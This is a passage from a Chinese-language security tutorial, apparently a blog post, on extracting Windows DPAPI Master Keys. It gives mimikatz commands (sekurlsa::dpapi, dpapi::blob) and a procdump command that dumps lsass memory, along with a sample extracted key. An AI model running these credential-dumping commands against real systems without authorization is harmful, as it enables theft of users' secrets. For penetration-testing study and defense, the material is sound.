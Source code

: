 获得对应guidMasterkey为`{a111b0f6-b4d7-40c8-b536-672a8288b958}`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-2-14/2-1.png)

即Master Key file的路径为`%APPDATA%\Microsoft\Protect\%SID%\a111b0f6-b4d7-40c8-b536-672a8288b958`


### 3、从lsass进程提取出Master Key

#### (1) 在线方式

需要管理员权限

mimikatz:

```
privilege::debug
sekurlsa::dpapi
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-2-14/2-2.png)

提取出Master Key为`666638cbaea3b7cf1dc55688f939e50ea1002cded954a1d17d5fe0fbc90b7dd34677ac148af1f32caf828fdf7234bafbe14b39791b3d7e587176576d39c3fa70`

#### (2) 离线方式

使用procdump dump出LSASS进程内存

procdump下载地址：

https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

管理员权限：

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

使用mimikatz加载dmp文件：

```
sekurlsa::minidump lsass.dmp
sekurlsa::dpapi
```

**注：**

mimikatz从lsass进程提取出Master Key后，会自动将Master Key加入系统缓存

### 4、使用masterkey解密

mimikatz:

```
dpapi::blob /in test.txt
```
